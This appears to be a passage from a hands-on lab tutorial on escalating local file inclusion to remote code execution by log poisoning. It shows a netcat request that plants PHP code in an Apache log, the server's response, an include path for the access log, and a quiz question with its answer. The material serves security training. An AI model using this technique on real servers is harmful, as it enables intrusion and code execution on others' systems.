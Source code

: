 ```
PHP Version 7.4.3-4ubuntu2.19   

```

## LFI2RCE - log poisoning 


#### Log Poisoning

Log poisoning is a technique where an attacker injects executable code into a web server's log file and then uses an LFI vulnerability to include and execute this log file. This method is particularly stealthy because log files are shared and are a seemingly harmless part of web server operations. In a log poisoning attack, the attacker must first inject malicious PHP code into a log file. This can be done in various ways, such as crafting an evil user agent, sending a payload via URL using Netcat, or a referrer header that the server logs. Once the PHP code is in the log file, the attacker can exploit an LFI vulnerability to include it as a standard PHP file. This causes the server to execute the malicious code contained in the log file, leading to RCE.

For example, if an attacker sends a Netcat request to the vulnerable machine containing a PHP code:

```html
nc MACHINE_IP 80 
<?php echo phpinfo(); ?> 
HTTP/1.1 400 Bad Request 
Date: Thu, 23 Nov 2023 05:39:55 GMT 
Server: Apache/2.4.41 (Ubuntu) 
Content-Length: 335 
Connection: close 
Content-Type: text/html; charset=iso-8859-1 

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN"> 
<html><head> 
<title>400 Bad Request</title> 
</head><body> 
<h1>Bad Request</h1> 
<p>Your browser sent a request that this server could not understand.<br /> </p> <hr> 
<address>Apache/2.4.41 (Ubuntu) Server at MACHINE_IP.eu-west-1.compute.internal Port 80
</address> 
</body></html>
```

The attacker then uses LFI to include the access log file: 
```
# Can you exploit the "?page=" parameter?

?page=/var/log/apache2/access.log

# returns /etc/passwd
```

To replicate the above demo, you may head to [http://MACHINE_IP/playground.php](http://machine_ip/playground.php)
```
What technique does an attacker use to inject executable code into a web server's log file and then use a file inclusion vulnerability to include and execute the malicious code?

Log poisoning
```
